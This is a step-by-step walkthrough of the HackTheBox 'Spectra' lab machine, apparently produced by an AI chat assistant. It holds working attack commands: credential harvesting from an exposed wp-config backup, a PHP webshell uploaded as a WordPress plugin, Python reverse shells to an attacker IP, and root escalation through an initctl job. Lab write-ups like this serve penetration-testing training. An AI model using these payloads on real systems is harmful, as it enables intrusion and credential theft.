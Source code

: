## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.229
nmap -p 22,80,3306 -sCV -oA scans/nmap-tcpscripts 10.10.10.229
```

---

## 🤖 Hosts Setup
```bash
echo "10.10.10.229 spectra.htb" | sudo tee -a /etc/hosts
```

---

## 🔗 Enumerate [WordPress](HTTP)
```bash
# Look for .save file
curl http://spectra.htb/testing/wp-config.php.save

# Credentials found:
DB_USER=devtest
DB_PASS=devteam01

# Try login
wpscan --url http://spectra.htb/main -e ap,t,tt,u --api-token <your-token>
```

---

## 👤 WP Admin Login
```bash
# Username: administrator
# Password: devteam01
```

---

## 📂 Webshell via Plugin (Option A)
```php
# Create 0xdf.php with:
<?php system($_REQUEST["0xdf"]); ?>

# Zip it:
zip 0xdf-plug.zip 0xdf.php

# Upload via WP Admin ➝ Plugins ➝ Upload Plugin

# Access shell:
curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php?0xdf=id
```

---

## 🚧 Reverse Shell (from WP Webshell)
```bash
# Listener
nc -lnvp 443

# Payload
curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php \
  --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

---

## 🔎 Lateral Movement (Find creds)
```bash
cat /etc/lsb-release
cat /etc/autologin/passwd  # => SummerHereWeCome!!
```

---

## 🔐 [SSH](SSH) as Katie
```bash
sshpass -p 'SummerHereWeCome!!' ssh katie@10.10.10.229
```

---

## 🔒 Root Escalation
```bash
# Sudo permissions
sudo -l
# ➝ /sbin/initctl

# Editable conf:
ls /etc/init/*.conf  # choose test.conf or make your own

# Add to script block:
exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Start service:
sudo initctl start test
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📑 Resources
- https://book.hacktricks.xyz/pentesting/wordpress
- https://gtfobins.github.io/gtfobins/initctl/
- https://github.com/offensive-security/exploitdb-bin-sploits/blob/master/bin-sploits/44449.rb

Let me know if you want a visual breakdown or plugin-based method only ✨

